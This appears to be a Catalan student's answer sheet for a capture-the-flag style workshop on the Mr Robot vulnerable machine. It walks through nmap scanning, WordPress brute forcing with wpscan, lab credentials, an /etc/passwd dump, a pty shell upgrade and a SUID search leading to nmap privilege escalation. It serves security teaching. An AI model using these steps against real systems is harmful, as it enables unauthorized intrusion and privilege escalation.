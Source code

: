 Workshop 4

1. Quins ports té oberts la víctima?

PORT    STATE  SERVICE
80/tcp  open   http
443/tcp open   https

2. Quina sèrie televisiva està representada a la web?

MrRobot

3. Cerca possibles noms de carpetes i fitxers del servidor web amb la comanda nmap i l’script http-enum, i digues a quina URL podem fer un login.

He trobat aquestes dues:

/wp-login.php: Wordpress login page.







4. Amb quin programari està creat el contingut web on podem fer login?

Amb Wordpress:
























5. Per fer un atac de força bruta, quins usuaris provaries tenint en compte el tema de la web?

El nom de l’usuari per defecte és admin, llavors provaria admin, però també es podria provar administrator, administrador, root, etc. 

Si parlem de la sèrie robot, mrobot o elliot.












6. Fes un atac de força bruta amb l’eina wpscan, els usuaris que acabes d’anomenar i un diccionari de contrasenyes. Quin és l’usuari i la contrasenya correcta?

L’usuari és elliot i la contrasenya és qosqomanta




7. Quin usuari ets?









8. Quins usuaris hi ha al sistema?






















root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
sshd:x:102:65534::/var/run/sshd:/usr/sbin/nologin
ftp:x:103:106:ftp daemon,,,:/srv/ftp:/bin/false
bitnamiftp:x:1000:1000::/opt/bitnami/apps:/bin/bitnami_ftp_false
mysql:x:1001:1001::/home/mysql:
varnish:x:999:999::/home/varnish:
robot:x:1002:1002::/home/robot:
montilivi:x:0:0::/home/montilivi:
ossec:x:104:108::/var/ossec:/bin/false

9. Quins fitxers hi ha al home de l’usuari robot?









10. Quina és la contrasenya de l’usuari robot?

python -c 'import pty; pty.spawn("/bin/bash")'

He trobat la password:
abcdefghijklmnopqrstuvwxyz







11. Qins fitxers hi ha?


robot@linux:~$ find /* -user root -perm -4000 -print 2> /dev/null
find /* -user root -perm -4000 -print 2> /dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown


12. Quina comanda escriuries a l’nmap per obtenir la shell amb permisos root? Mostra una captura de pantalla amb el resultat.

Tenim aquesta versió de nmap:



I amb el que se’ns indica anem a https://gtfobins.github.io/gtfobins/nmap/ 

I el que haurem de fer per obtenir el shell amb permisos root és això:



I ara ho fem:



I amb aquestes comandes ja tenim els permisos root.
